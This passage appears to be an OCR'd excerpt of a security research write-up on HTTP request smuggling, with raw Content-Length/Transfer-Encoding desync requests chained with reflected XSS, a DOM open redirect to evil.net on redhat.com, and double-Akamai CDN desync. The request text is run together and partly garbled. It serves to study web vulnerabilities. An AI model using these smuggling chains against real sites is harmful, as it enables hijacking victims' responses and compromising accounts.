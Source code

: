 ```
POST / HTTP/1.1Host: saas-app.comContent-Length: 4Transfer-Encoding : chunked10=x&cr={creative}&x=66POST /index.php HTTP/1.1Host: saas-app.comContent-Length: 200SAML=a"><script>alert(1)</script>POST / HTTP/1.1Host: saas-app.comCookie: …HTTP/1.1 200 OK…<input name="SAML"   value="a"><script>alert(1)</script>0POST / HTTP/1.1Host: saas-app.comCookie: …"/>
```

### Grasping the DOM

While looking for a vulnerability to chain with request smuggling on www.redhat.com, I found a DOM-based open redirect which presented an interesting challenge:

```
GET /assets/idx?redir=//redhat.com@evil.net/ HTTP/1.1Host: www.redhat.comHTTP/1.1 200 OK<script>var destination = getQueryParam('redir')[poor filtering]document.location = destination
```

``Some JavaScript on the page was reading the 'redir' parameter from the victim browser's query string, but how could I control it? Request smuggling gives us control over what the server thinks the query string is, but the victim's browser's perception of the query string is simply whatever page they were trying to access.

I was able to resolve this by chaining in a server-side non-open redirect:

```
POST /css/style.css HTTP/1.1Host: www.redhat.comContent-Type: application/x-www-form-urlencodedContent-Length: 122Transfer-Encoding: chunked0POST /search?dest=../assets/idx?redir=//redhat.com@evil.net/ HTTP/1.1Host: www.redhat.comContent-Length: 15x=GET /en/solutions HTTP/1.1Host: www.redhat.comHTTP/1.1 301 FoundLocation: ../assets/idx?redir=//redhat.com@evil.net/
```

The victim browser would receive a 301 redirect to https://www.redhat.com/assets/idx.html?redir=//redat.com@evil.net/which would then execute the DOM-based open redirect and dump them on evil.net

### CDN Chaining

Some websites use multiple layers of reverse proxies and CDNs. This gives us extra opportunities for desynchronization which is always appreciated, and it often also increases the severity.

One target was somehow using two layers of Akamai, and despite the servers being by the same vendor it was possible to desynchronize them and thereby serve content from anywhere on the Akamai network on the victim's website:

```
POST /cow.jpg HTTP/1.1Host: redacted.com Content-Type: application/x-www-form-urlencoded Content-Length: 50 Transfer-Encoding: chunked 0 GET / HTTP/1.1 Host: www.redhat.com X: XGET...Red Hat - We make open source technologies for the enterprise
```

The same concept works on SaaS providers; I was able to exploit a critical website built on a well known SaaS platform by directing requests to a different system built on the same platform.

### 'Harmless' responses

Because request smuggling lets us influence the response to arbitrary requests, some ordinarily harmless behaviours become exploitable. For example, even the humble open redirect can be used to compromise accounts by redirecting JavaScript imports to a malicious domain.
